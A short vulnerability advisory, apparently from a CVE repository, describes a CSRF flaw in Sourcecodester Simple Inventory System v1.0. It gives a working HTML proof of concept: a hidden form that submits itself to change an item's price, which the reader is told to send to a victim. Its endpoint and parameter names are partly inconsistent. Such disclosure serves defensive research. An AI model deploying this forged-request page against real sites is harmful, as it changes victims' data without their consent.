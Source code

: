 ### CSRF vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：/tableedit.php#page=editprice

injection parameter:$_POST['itemnumber']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the front-end sends the modified price data packet through the form form, there is a lack of token verification mechanism, and the back-end updateproduct.php is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.

![image-20240517163532892](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System CSRF.assets/image-20240517163532892.png)

![image-20240517163554229](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System CSRF.assets/image-20240517163554229.png)

#### 2.Vulnerability verification and exploit

The construction poc is as follows. Save it as an html file and send it to the victim to click, so that the product price can be modified.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://10.15.6.184:82/updateprice.php" method="POST">
      <input type="hidden" name="ITEM" value="1" />
      <input type="hidden" name="itemprice" value="888" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image-20240517164018816](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System CSRF.assets/image-20240517164018816.png)

After clicking on the html file, the price is modified to 888.

![image-20240517164148946](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System CSRF.assets/image-20240517164148946.png)
